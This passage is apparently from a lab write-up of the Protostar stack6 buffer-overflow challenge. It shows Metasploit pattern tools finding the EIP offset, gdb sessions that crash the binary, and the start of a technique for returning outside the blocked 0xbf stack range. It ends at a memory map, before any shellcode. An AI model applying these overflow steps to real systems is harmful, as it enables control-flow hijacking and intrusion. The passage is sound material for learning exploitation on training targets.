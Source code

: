   After checking the code I found that the code prevent me to return to address began with 0xbfXXXXXX so I had to return to another address.

  First, we have to see what is the exact position of EIP by using pattern_create.rb
```
root@BOEING:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```
(gdb) run
Starting program: /opt/protostar/bin/stack6 
input path please: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```

```
root@BOEING:~#  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q  0x37634136
[*] Exact match at offset 80
```

  I had 80-byte buffer. 

  This challenge can be accomplished by many ways and I'll try some methods.

## 1. Duplicate of the payload
  Duplicate payload technique is a technique we could find our shellcode or input store in another place. After checking the stack I found that our payload stored in another location which the location address did not begin with 0xbfXXXXXX.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080484fa <main+0>:    push   ebp
0x080484fb <main+1>:    mov    ebp,esp
0x080484fd <main+3>:    and    esp,0xfffffff0
0x08048500 <main+6>:    call   0x8048484 <getpath>
0x08048505 <main+11>:   mov    esp,ebp
0x08048507 <main+13>:   pop    ebp
0x08048508 <main+14>:   ret    
End of assembler dump.
(gdb) b *main+13
Note: breakpoint 1 also set at pc 0x8048507.
Breakpoint 2 at 0x8048507: file stack6/stack6.c, line 31.
(gdb) run 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack6 
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) info proc map
process 2888
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

```